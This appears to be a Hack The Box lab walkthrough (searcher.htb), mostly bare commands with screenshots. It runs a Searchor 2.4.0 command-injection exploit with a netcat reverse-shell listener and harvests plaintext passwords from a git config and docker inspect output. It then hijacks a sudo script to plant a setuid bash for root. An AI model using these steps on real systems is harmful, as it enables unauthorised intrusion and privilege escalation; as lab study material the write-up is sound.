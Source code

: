 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.208
http://searcher.htb/
Searchor 2.4.0
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
nc -lvnp 9001
./exploit.sh searcher.htb 10.10.14.6
./LinEnum.sh
ls –la
cat /var/www/app/.git/config
ssh svc@10.10.11.208
http://gitea.searcher.htb/
http://gitea.searcher.htb/explore/users
sudo –l
ls -l /opt/scripts/system-checkup.py
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
http://gitea.searcher.htb/
Login as administrator
http://gitea.searcher.htb/administrator/scripts
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
cd /tmp
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
ls -l /tmp/0xdf
/tmp/0xdf -p
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.208
```
![image](https://github.com/user-attachments/assets/b87356b0-328d-4e3f-9d77-9931a3f05397)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://searcher.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/d9bc1e67-58eb-4ac9-845e-722262c25cd1)

```
http://searcher.htb/
Flask and Searchor 2.4.0
```
![image](https://github.com/user-attachments/assets/bd4e8d89-c572-47ff-aed8-78849d8ecfa0)

```
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
nc -lvnp 9001
./exploit.sh searcher.htb 10.10.14.6
```
![image](https://github.com/user-attachments/assets/0c8ae1ca-65ee-4482-a470-d158ca0885ac)

![image](https://github.com/user-attachments/assets/75afe791-f94b-46c5-95c0-2377531e07b5)

```
./LinEnum.sh
```
![image](https://github.com/user-attachments/assets/fd501ed2-f7f8-4011-b4f8-c765d4eaabae)

```
ls –la
cat /var/www/app/.git/config
jh1usoih2bkjaspwe92
```
![image](https://github.com/user-attachments/assets/85d62632-00cc-42cc-8da1-7f6413235d1c)

```
ssh svc@10.10.11.208
```
![image](https://github.com/user-attachments/assets/586273ab-cf7c-4e40-bfe5-b9120eeab1d2)

```
http://gitea.searcher.htb/
http://gitea.searcher.htb/explore/users
```
![image](https://github.com/user-attachments/assets/d6e218ad-6de1-4bdf-a6fc-2089c28078df)

![image](https://github.com/user-attachments/assets/519c8951-5394-4350-aec1-b75be2a8b901)

```
sudo –l
ls -l /opt/scripts/system-checkup.py
```
![image](https://github.com/user-attachments/assets/73f7879c-6a72-4aa0-803f-a00969f0f4fc)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```
![image](https://github.com/user-attachments/assets/86e9740e-c3ed-4727-b569-a40d4a0c4e7d)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```
![image](https://github.com/user-attachments/assets/bf255e72-2c04-40fc-a1bb-5c1c4acc38b0)

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
yuiu1hoiu4i5ho1uh
```
![image](https://github.com/user-attachments/assets/3685c0b4-d22d-40a3-b6d3-7310cb3eaf89)

```
http://gitea.searcher.htb/
Login as administrator
http://gitea.searcher.htb/administrator/scripts
```
![image](https://github.com/user-attachments/assets/4576ac3a-928d-4aa2-92f5-a53ceed289b0)

![image](https://github.com/user-attachments/assets/842814c0-3185-4082-9fda-8ec21de91264)

```
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
![image](https://github.com/user-attachments/assets/e601cf8e-8c93-46e5-8690-e27c9e92d6cc)

```
cd /tmp
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
ls -l /tmp/0xdf
/tmp/0xdf -p
```
![image](https://github.com/user-attachments/assets/ba0cbc60-a1a6-424f-8c43-b75a15663089)
